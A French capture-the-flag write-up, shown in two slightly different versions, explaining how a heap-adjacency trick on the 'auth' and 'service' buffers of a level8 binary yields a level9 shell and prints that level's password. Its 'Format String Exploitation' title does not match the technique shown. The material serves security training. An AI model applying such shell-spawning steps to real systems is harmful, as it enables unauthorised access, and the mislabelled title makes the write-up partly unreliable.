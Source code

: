 
# Format String Exploitation

  

En décompilant le programme exécute différents tests pour arriver à un test final. Si cette condition est respectée, alors un shell avec les droits de `level9` sera lancé.
```C
eax = auth;
eax = *((eax + 0x20));
if (eax != 0) {
	system ("/bin/sh");
	goto label_0;
}
```
`0x20` équivaut à 32 en base10. Au vu du code,  cette condition semble être 
```C
if (auth[32] != '\0') {
	system ("/bin/sh");`
}
```
Pour arriver jusqu'a cette condition, il vas nous falloir plusieurs étapes. 
On ne peut pas écrire 32 caractères directement sur `auth` puisqu'il y a cette condition : 
```C
if (str1 < 0x1f) {
	strcpy(_auth, acStack139);
}
```
`0x1f` correpond à 31 en base 10. On peut donc écrire au maximum 30 caractères sur `auth `.
On remarque, que lorsqu'on saisit `auth `, cela va faire un `malloc` de 4 puis mettre sa valeur à 0.
```C
_auth = (undefined4 *)malloc(4);
``` 
On peut néanmoins observer que nos adresses `auth` et `service` sont très proche (désassembleur Cutter). 
```
auth:
0x08049aac add byte  [eax], al
0x08049aae add byte  [eax], al
service:
0x08049ab0 add byte  [eax], al
0x08049ab2 add byte  [eax], al
```

```
0x08049ab0 - 0x08049aac = 0x4
0x08049ab2 - 0x08049aae = 0x4
```
Nos adresse sont juste à coté. Donc :
```
auth[32] = service[28] 
```
Dans la partie de code qui correspond à `service`, on observe ce bout de code :
```C
_service = strdup(auStack137);
```
En regardant le `man` de `strdup`, on est tombé sur cela : 
```
The strdup() function allocates memory and copies into it the string addressed by _s1_, including the terminating null character
```
Cela signifie qu'un `\0` va être ajouté en bout de chaine. 
Il faut donc que l'on écrive plus de 28 caractères pour que `service[28] != '\0'`.

Pour rentrer dans la dernière condition de check `if auth[32] != '\0'`, il faut que notre dernière `input`soit `login`.

On va donc faire : 
```
> ./level8
[...]
> auth 
0x804a008, (nil)
> service AAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
> login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
``` 


# Format String Exploitation

  

En décompilant le programme exécute différents tests pour arriver à un test final. Si cette condition est respectée, alors un shell avec les droits de `level9` sera lancé.
```C
eax = auth;
eax = *((eax + 0x20));
if (eax != 0) {
	system ("/bin/sh");
	goto label_0;
}
```
`0x20` équivaut à 32 en base10. Au vu du code,  cette condition semble être 
```C
if (auth[32] != '\0') {
	system ("/bin/sh");`
}
```
Pour arriver jusqu'a cette condition, il vas nous falloir plusieurs étapes. 
On ne peut pas écrire 32 caractères directement sur `auth` puisqu'il y a cette condition : 
```C
if (str1 < 0x1f) {
	strcpy(_auth, acStack139);
}
```
`0x1f` correpond à 31 en base 10. On peut donc écrire au maximum 30 caractères sur `auth `.
On remarque, que lorsqu'on saisit `auth `, cela va faire un `malloc` de 4 puis mettre sa valeur à 0.
```C
_auth = (undefined4 *)malloc(4);
``` 
Faisons quelques tests. 
```
> ./level8
[...]
> auth 
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
```
Il vient de se passer quelque chose de très intéressant. 
On a vu précédemment `auth + 0x20 !='\0'`.
Il semblerait que lorsqu'on saisis quelque choses, le programme nous affiche leur adresse.
Lorsqu'on à saisis une première fois `service`, on a vu que notre adresse a augmenté de `0x10`. Lorsqu'on l'a ressaisis une seconde fois, on a vu que l'adresse avait augmenté de 0x20.

Dans la partie de code qui correspond à `service`, on observe ce bout de code :
```C
_service = strdup(auStack137);
```
En regardant le `man` de `strdup`, on est tombé sur cela : 
```
The strdup() function allocates memory and copies into it the string addressed by _s1_, including the terminating null character
```
Cela signifie qu'un `\0` va être ajouté en bout de chaine. 

On peut donc refaire cette manipulation puis finir par login.

```
> ./level8
[...]
> auth 
0x804a008, (nil)
> service
0x804a008, 0x804a018
> service
0x804a008, 0x804a028
> login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
``` 
